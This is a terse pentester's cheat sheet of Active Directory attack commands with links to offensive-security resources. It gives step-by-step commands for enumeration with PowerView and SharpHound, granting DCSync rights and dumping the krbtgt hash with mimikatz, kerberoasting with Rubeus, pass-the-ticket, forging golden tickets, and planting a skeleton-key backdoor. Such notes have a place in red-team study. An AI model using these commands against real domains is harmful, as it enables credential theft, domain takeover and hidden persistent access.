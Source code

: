 # Resources

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview  

https://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/

https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/

### [PowerView.ps1]

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
```
get-aduser <username>
Get-NetDomain
```

### [Sharphound to extract active directory objects]
https://github.com/BloodHoundAD/SharpHound

```
Invoke-Bloodhound -CollectionMethod All -Domain domain.local -ZipFileName file.zip
```

### [Dumping credentials from the domain controller with DCSync]

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync


1. Import the module
```
import-module .\PowerView.ps1
```

2. Add DCSync rights to user
```
Add-ObjectACL PrincipalIdentity user -Rights DCSync
```

3. Import Active Directory
```
Import-Module ActiveDirectory
```

4. Retrieve the permissions for user
```
(Get-Acl "ad:\dc=DOMAIN,dc=COM").Access | ? {$_.IdentityReference -match 'user' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

5. Use mimikatz to dump credentials
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```
lsadump::dcsync /user:krbtgt
```

Kerberoast
```
Rubeus.exe kerberoast
Rubeus.exe asreproast

dumps tickets containing the hashes hashes for all accounts:

sekurlsa::tickets /export

Impersonate their tickets

kerberos::ptt <ticket>

This will the hash and security identifier needed to create a golden ticket.

lsadump::lsa /inject /name:username

Generating the golden/silver ticket:

Kerberos::golden /user:<username> /domain:controller.local /sid:<SID> /krbtgt:<NTLM> /id:<ID>

Create a backdoor

misc::skeleton
```

